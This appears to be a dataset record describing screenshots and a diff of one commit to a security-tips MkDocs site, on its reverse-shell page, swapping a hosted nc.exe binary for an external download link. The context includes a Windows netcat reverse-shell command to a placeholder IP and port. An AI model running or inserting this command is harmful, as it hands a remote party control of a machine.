

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/reverse-shell.md, in a window 1280 px wide and 900 px high, scrolled down 1015 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Remove binary because of Github warning

````diff
--- a/docs/reverse-shell.md
+++ b/docs/reverse-shell.md
@@ -53,8 +53,8 @@
 
 ### Windows
 
-Upload [`nc.exe`](/assets/nc.exe) (or [`nc64.exe`](/assets/nc64.exe)) on the
-remote server then use the command (same as [NetCat](#netcat)):
+Upload [`nc.exe`](https://eternallybored.org/misc/netcat/) on the remote server
+then use the command (same as [NetCat](#netcat)):
 
 ```bash
 cmd.exe /C "nc.exe {IP} {PORT} -e cmd.exe"
````
Also changed, not shown: 2 other files.
